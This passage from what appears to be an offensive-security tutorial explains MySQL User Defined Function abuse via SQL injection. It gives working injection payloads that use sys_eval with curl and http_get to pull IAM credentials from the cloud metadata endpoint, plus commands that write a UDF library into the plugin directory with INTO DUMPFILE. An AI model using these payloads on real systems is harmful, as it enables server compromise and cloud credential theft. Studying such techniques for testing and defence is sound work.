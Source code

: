 Another cool technique with MySQL databases is the ability to use User Defined Functions (UDF) present in external library files that if present in specific locations or system $PATH then can be accessed from within MySQL.

You could use a SQL Injection to write a library (`.so` or `.dll` depending on Linux or Windows), containing a User Defined Function that can make network/HTTP requests, that can be then invoked through additional queries.

This has its own set of restrictions though. Based on the version of MySQL, which you can identify with `select @@version`, the directory where plugins can be loaded from is restricted. MySQL below `v5.0.67` allowed for library files to be loaded from system path if the `plugin_dir` variable was not set. This has changed now and newer versions have the `plugin_dir` variable set to something like `/usr/lib/mysql/plugin/`, which is usually owned by root.

Basically for you to load a custom library into MySQL and call a function from the loaded library via SQL Injection, you would need the

- ability to write to the location specified in `@@plugin_dir` via SQL Injection
- `file_priv` set to `Y` in `mysql.user` for the current database user
- `secure_file_priv` set to `""` so that you can read the raw bytes of the library from an arbitrary location like the network or a file uploads directory in a web application.

Assuming the above conditions are met, you can use the classical approach of transferring the <a href="https://github.com/mysqludf/lib_mysqludf_sys" target="_blank" rel="noopener noreferrer">popular MySQL UDF `lib_mysqludf_sys` library</a> to the database server. You would then be able to make operating system command requests like `cURL` or `powershell wget` to perform SSRF using the syntax 

`x'; SELECT sys_eval('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

There are a lot of other functions declared in this library, an analysis of which can be seen <a href="https://osandamalith.com/2018/02/11/mysql-udf-exploitation/" target="_blank" rel="noopener noreferrer">here</a>. If you are lazy like me, you can grab a copy of this UDF library, for the target OS, from a metasploit installation from the `/usr/share/metasploit-framework/data/exploits/mysql/` directory and get going.

Alternatively, UDF libraries have been created to specifically provide the database the ability to make HTTP requests. You can use <a href="https://github.com/y-ken/mysql-udf-http" target="_blank" rel="noopener noreferrer">MySQL User-defined function (UDF) for HTTP GET/POST</a> to get the database to make HTTP requests, using the following syntax

`x'; SELECT http_get('http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

You could also <a href="https://pure.security/simple-mysql-backdoor-using-user-defined-functions/" target="_blank" rel="noopener noreferrer">create your own UDF and use that for post exploitation as well.</a>

In any case, you need to transfer the library to the database server. You can do this in multiple ways

1. Use the MySQL `hex()` string function or something like `xxd -p filename.so | tr -d '\n'` to convert the contents of the library to hex format and then dumping it to the `@@plugin_dir` directory using `x'; SELECT unhex(0x1234abcd12abcdef1223.....) into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`
2. Alternatively, convert the contents of `filename.so` to base64 and use `x';select from_base64("AAAABB....") into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`
